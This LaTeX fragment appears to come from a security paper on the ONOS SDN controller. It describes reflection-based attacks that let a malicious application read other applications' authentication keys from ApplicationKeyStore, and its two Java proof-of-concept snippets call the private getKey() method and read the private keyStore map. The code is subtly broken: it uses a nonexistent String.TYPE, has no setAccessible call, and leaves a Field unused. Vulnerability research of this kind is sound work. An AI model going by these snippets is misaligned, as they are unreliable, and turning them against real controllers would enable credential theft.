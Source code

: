\documentclass[a4paper,10pt]{memoir}
\begin{document}
Even if this is a powerful technique to obtain information about a Java class, a potential attacker already knows which are the methods defined by the ApplicationKeyStore class. However there are two techniques that can be exploited in order to carry out powerful attacks against the application key store. The first method is invoking private methods of the victim class. In the following code snippet we consider that an instance of the ApplicationKeyStore called "applicationKeyStore" was defined. In the main function if an exception is not thrown, the ApplicationKeyStore class reference is found, then the input parameter is defined and finally a reference to the method getKey() is obtained. Lastly, the method getKey() is invoked with the parameter "org.onosproject.fwd" and the result is printed on standard output. Using this method a malicious application could obtain the value of the authentication key of any registered application even if the method getKey is private.
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;
import org.onosproject.security.ApplicationKeyStore;
      ...
      public static void main(String args[])
      {
         try {
            Class cls = Class.forName("ApplicationKeyStore");
            Class partypes[] = new Class[1];
            partypes[0] = String.TYPE;
            Method meth = cls.getMethod("getKey", partypes);
            Object arglist[] = new Object[1];
            arglist[0] = "org.onosproject.fwd";
            Object retobj = meth.invoke(applicationKeyStore, arglist);
            String retval = (String)retobj;
            System.out.println(retval);
         }
         catch (Throwable e) {
            System.err.println(e);
         }
      }
   }
\end{lstlisting}

The second technique is to accessing directly the private fields. As in the previous snippet we consider that an instance of the ApplicationKeyStore called "applicationKeyStore" was defined. The lines 7 and 8 defines the Class and the Field object (recall that the code is not a secret even for the attacker and so they know the private field names), finally the value of the private field is obtained. Here an attacker can easily obtain access to the hashmap holding the values for the application authentication and so it's an extremely powerful attack. Notice that here the attacker obtain access to the whole data store without even have to guess the application names.
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;
import org.onosproject.security.ApplicationKeyStore;
   ...
   public static void main(String args[])
   {
      try {
         Class cls = Class.forName("ApplicationKeyStore");
         Field fld = cls.getField("keyStore");
         System.out.println("Key Store = " + applicationKeyStore.keyStore);
      } 
      catch (Throwable e) {
         System.err.println(e);
      }
   }
\end{lstlisting}
\end{document}

